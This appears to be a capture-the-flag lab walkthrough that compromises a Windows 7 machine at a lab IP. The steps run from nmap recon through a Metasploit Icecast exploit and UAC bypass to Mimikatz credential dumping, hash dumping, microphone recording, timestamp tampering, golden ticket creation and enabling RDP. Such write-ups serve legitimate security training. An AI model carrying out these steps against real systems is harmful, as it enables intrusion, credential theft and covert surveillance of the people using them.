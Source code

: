 ## **Recon Stage**
> - Perform SYN scan on all ports.
```
nmap -sS -p- -vv -o nmap_scan.txt 10.10.51.67
```
> - The above scan took way too long.
> - Performing an OS, version, script scan, and trace route *-A* with timing set with *-T4* on all ports.
```
nmap -A -T4 -p- -vv -o nmap_scan.txt 10.10.51.67
```
![](recon_1.png)
![](recon_2.png)
![](recon_3.png)

#### Interesting findings
>	- *MSRDP* running on port `3389`
> - *SMB* running on port `139, 445`
> - *Icecast* running on port `8000`
> - *CommonName* of *DARK-PC*
> -	Windows 7 Professional 7601



## **Access Stage**
>	- Research on Icecast shows that, that version is highly vulnerable to *Execute Code Overflow* `CVE-2004-1561`.
>	- Search in *Metasploit* for Icecast.
>	- `msfconsole`![](access_1.png)
>	- Use the found module add the required options, and make sure that the *LHOST* option has the *VPN IP*.
>	- Run the exploit `run` or `exploit`.
>	- Meterpreter session opened. ![](access_2.png)


## **Privilege Escalation Stage**
>	- Found user running the last Icecast process with `getuid`.
>	- Found build of windows with `sysinfo` although it was already found during recon stage.
>	- `run post/multi/recon/local_exploit_suggester` as recommended.
>	- Too many exploits to list.![](privesc_1.png)
```
use exploit/windows/local/bypassuac_eventvwr
```
>	- Make sure that LHOST is set to the VPN IP and set `SESSION`.![](privesc_2.png)
>	- `run` the exploit.![](privesc_3.png)
>	- Verify expanded permissions using `getprivs`
>	- To change ownership of files use `SeTakeOwnershipPrivilege`


## **Looting Stage**
>	- List the processes using `ps`![](looting_1.png)
>	- To interact with the *lsass* service; the service responsible for authentication within Windows, we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and has the same permissions. The chosen service is printer spool `spoolsv.exe`.
>	- Migrate to the process using `migrate -N spoolsv.exe`.
>	- Check user with `getuid`.![](looting_2.png)
>	- Load *Mimikatz* tool; a tool famous for password dumping, with `load kiwi` (Kiwi is the updated version of Mimikatz).
>	- Use `help` command to check for newly added Kiwi commands.
>	- Command `creds_all` retrieves all credentials.
>	- Run `creds_all`.![](looting_3.png)![](looting_4.png)
>	- *Mimikatz* allows us to steal this password out of memory even without the user *Dark* logged in as there is a scheduled task that runs the *Icecast* as the user *Dark*.
>	-  It also helps that *Windows Defender* & *Firewall* isn't running on the box.


## **Post-Exploitation Stage**
>	- Dump all the hashes stored on the system using `hashdump`.
>	- Watch the remote user's desktop in real time using `screenshare`.
>	- Record from a microphone attached to the system using `record_mic`.
>	- Modify timestamps of files on the system using `timestomp`.
>	- Mimikatz allows us to create a `golden ticket`, which allows us to authenticate anywhere with ease, use `golden_ticket_create`.
>	- `run post/windows/manage/enable_rdp` to remote into machines and view them as their users do.![](post_exploit_1.png)
